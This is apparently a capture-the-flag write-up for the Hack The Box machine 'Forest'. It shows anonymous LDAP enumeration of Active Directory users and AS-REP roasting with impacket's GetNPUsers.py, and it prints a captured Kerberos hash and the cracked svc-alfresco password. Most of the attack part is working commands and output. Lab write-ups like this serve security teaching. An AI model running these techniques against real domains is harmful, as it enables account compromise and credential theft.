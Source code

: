 
```ldapsearch -x -H ldap://10.10.10.161 -b "dc=htb,dc=local" "OU" | grep -i service | grep '#'```
	WinsockServices, System, htb.local
	RpcServices, System, htb.local
	File Replication Service, System, htb.local
	Managed Service Accounts, htb.local
	Service Accounts, htb.local
	svc-alfresco, Service Accounts, htb.local
	Service Accounts, Security Groups, htb.local
	Certificate Service DCOM Access, Builtin, htb.local

```ldapsearch -x -H ldap://10.10.10.161 -b "dc=htb,dc=local" "objectClass=person" | grep sAMAccountName | awk '{print $2}'```
	Guest
	DefaultAccount
	FOREST$
	EXCH01$
	$331000-VK4ADACQNUCA
	SM_2c8eef0a09b545acb
	SM_ca8c2ed5bdab4dc9b
	SM_75a538d3025e4db9a
	SM_681f53d4942840e18
	SM_1b41c9286325456bb
	SM_9b69f1b9d2cc45549
	SM_7c96b981967141ebb
	SM_c75ee099d0a64c91b
	SM_1ffab36a2f5f479cb
	HealthMailboxc3d7722
	HealthMailboxfc9daad
	HealthMailboxc0a90c9
	HealthMailbox670628e
	HealthMailbox968e74d
	HealthMailbox6ded678
	HealthMailbox83d6781
	HealthMailboxfd87238
	HealthMailboxb01ac64
	HealthMailbox7108a4e
	HealthMailbox0659cc1
	sebastien
	lucinda
	andy
	mark
	santi

There are tools for enumerating important users like windapsearch and maybe some others, might look into them later. The service account was kind of hard to find and user accounts and service accounts should be searched separately when using ldapsearch.

Because we really don't have any other ways but to test for pre-auth for each user, we should use GetNPUsers.py impacket script.

If an account doesn't have pre-auth enabled, you can ask for the encrypted TGT without any authentication. Kerberos doesn't validate who is asking if pre-authentication is disabled.

```/opt/impacket/examples/GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile adUsers.ldapsearch -format hashcat -no-pass```
	$krb5asrep$23$svc-alfresco@HTB.LOCAL:4dc1bc06676a503b2431bdde7581abb3$d73416e6d6ef52f5a7fba7762de8a985a5de851e480a359c0c389892f22affe08eb096d6d5d87c990d6b873d7db34b37a8aaf7d5807e5591f59e8fc78afa040e04ab7a6fa7f65fa2eec315c09339b1e1c8d37b0862bc320e3dc39b4217356ab8028dd383ce81e7e67d9ac0983c3dbdef9072548497e14268a93105f89dd644469afbb32d36885bc16ed272cb91742800ce7b2de7aec1ed65c9612da7a13f274add365f60be35aa191a21c4ac9d55a245c4e3b9c88cc84858d608395fd31c8025c4ca5898567fcea957943146799ca5796f44b8af4083011f868f4dd15e808faf387e27c70fc7

Hash type for hashcat is 18200 (Kerberos 5, etype 23, AS-REP)
Cracked credentials: ==svc-alfresco : s3rvice==